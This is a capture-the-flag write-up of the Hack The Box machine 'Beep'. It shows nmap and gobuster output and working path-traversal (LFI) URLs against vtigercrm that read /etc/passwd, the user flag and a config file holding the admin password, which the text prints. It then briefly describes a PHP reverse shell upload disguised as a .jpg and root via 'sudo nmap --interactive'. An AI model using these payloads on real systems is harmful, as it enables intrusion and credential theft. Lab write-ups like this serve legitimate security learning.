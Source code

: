 # BEEP

Beep was an easy linux box that requried an interesting LFI exploit to read the user flag which lead to another lfi to read a file containing creds. There was multiple methodds for root including a simple ssh as root or spawning a reverse shell on the system and privelage escalating to root via sudo -l and exploiting nmap

> Nmap

```text
root@kali:~/boxes/beep/# nmap -sS -A 10.10.10.7

Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 04:36 EST
Nmap scan report for 10.10.10.7
Host is up (0.16s latency).
Not shown: 988 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
| 1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_ 2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp open http Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp open pop3 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 742/udp status
|_ 100024 1 745/tcp status
143/tcp open imap Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK ATOMIC URLAUTHA0001 RIGHTS=kxte IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ ANNOTATEMORE LIST-SUBSCRIBED CONDSTORE UIDPLUS CATENATE BINARY MAILBOX-REFERRALS LISTEXT IDLE RENAME ID IMAP4 QUOTA X-NETSCAPE THREAD=REFERENCES SORT=MODSEQ SORT CHILDREN NAMESPACE MULTIAPPEND STARTTLS NO ACL UNSELECT
443/tcp open ssl/http Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after: 2018-04-07T08:22:08
|_ssl-date: 2018-03-03T09:21:37+00:00; -19m56s from scanner time.
993/tcp open ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp open pop3Cyrus pop3d
3306/tcp open mysql MySQL (unauthorized)
4445/tcp open upnotifyp?
10000/tcp open http MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1). No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint:
OS:SCAN(V=7.50%E=4%D=3/3%OT=22%CT=1%CU=41868%PV=Y%DS=2%DC=T%G=Y%TM=5A9A6E1C
OS:%P=i686-pc-linux-gnu)SEQ(SP=CB%GCD=2%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=C
OS:B%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DN
OS:NT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3
OS:=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N
OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A
OS:0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=40%CD=S)
```

Our nmap scan shows alot of information but we narrow down and try to take away the important details.

On port `80` the service `elastix` is running. It is just simply a login page for what should be htb elastix service which we will need to exploit later.

We run a gobuster scan in dir mode to check for hidden directories to help our enumeration.

```text
root@kali:~/Desktop# gobuster -e -u https://10.10.10.7/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

Gobuster v1.2 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : https://10.10.10.7/
[+] Threads : 500
[+] Wordlist : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded : true
=====================================================
https://10.10.10.7/help (Status: 301)
https://10.10.10.7/modules (Status: 301)
https://10.10.10.7/themes (Status: 301)
https://10.10.10.7/lang (Status: 301)
https://10.10.10.7/static (Status: 301)
https://10.10.10.7/admin (Status: 301)
https://10.10.10.7/images (Status: 301)
https://10.10.10.7/var (Status: 301)
https://10.10.10.7/mail (Status: 301)
https://10.10.10.7/panel (Status: 301)
https://10.10.10.7/libs (Status: 301)
https://10.10.10.7/recordings (Status: 301)
https://10.10.10.7/configs (Status: 301)
https://10.10.10.7/vtigercrm (Status: 301)
```

We take a look at the `/vtingercrm` we can see that its running the `vtingercrm` service.

We search for epxloits and comme accross one on exploit-db that shows that it is an LFI and we can read the user flag an any other file with permissions for read access from the user.

> Links [https://www.exploit-db.com/exploits/18770](https://www.exploit-db.com/exploits/18770)

We use this and carry out a few commands like this:

```text
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

With this we can read the`/etc/passwd` file and it shows a user called `fanis` from here we can change the file name to try and raed the user flag.

```text
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.ph
p?module_name=../../../../../../../../home/fanis/user.txt%00

And we get user on the box!

# ROOT
Now using the second LIF that we found on exploit db [https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637)
```shell
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We do this and we read the creds for the administrator for the vtigercrm service

\`\`\`Username = admin Password = jEhdIekWmdjE

\`\`\` From here we can simply ssh as root into the box and read the root flag. This is the first method.

I wont cover the rest fully i was do a quick brief.

For root 1 method you can login into vtiger with the creds and navigating around the website you will find an upload section where you can upload a jpg file. We can upload a php reverse shell aslong as we name it shell.php.jpg and we can change the contents in burpsuite to change the needs required, from here we set up a listener and we get a shell.

For the priv esc we run `sudo -l` shows us that we can run nmap as root. We simply run `sudo nmap --interactive` to spawn a shell with interactive mode on nmap.

Thanks for reading hpoe you enjoyed.

